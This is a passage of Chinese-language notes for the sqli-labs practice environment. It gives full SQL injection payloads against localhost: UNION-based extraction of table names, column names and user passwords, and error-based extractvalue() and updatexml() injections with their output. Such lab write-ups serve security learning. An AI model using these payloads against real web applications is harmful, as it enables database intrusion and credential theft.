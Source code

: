 ```mysql
http://localhost/sqli-labs-master/less-3/?id=-1') union select 1,@@version,group_concat(table_name) from information_schema.tables where table_schema=database() -- -

http://localhost/sqli-labs-master/less-3/?id=-1') union select 1,@@version,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --  -

http://localhost/sqli-labs-master/less-3/?id=-1') union select 1,@@version,group_concat(username,password) from users -- -

```

------

## less-4

基于GET型的字符型注入 闭合方式  ")  其他与less-3同理

------

## less-5

基于GET型的报错注入 闭合方式 '

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) -- -
```

回显：XPATH syntax error: '~emails,referers,uagents,users'

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) -- -
```

回显：  XPATH syntax error: '~id,username,password'

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' union select 1,2,extractvalue(1,concat(0x7e,substring((select group_concat(username,password) from users),31,30))) -- -
```

利用substring()函数来控制回显字符数 得到数据

------

基于GET型的updatexml()报错注入:

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' and 1=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),3) -- - 
```

爆出来表名 回显：  XPATH syntax error: '~emails,referers,uagents,users'  继续爆列

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' and 1=updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')),3) -- - 
```
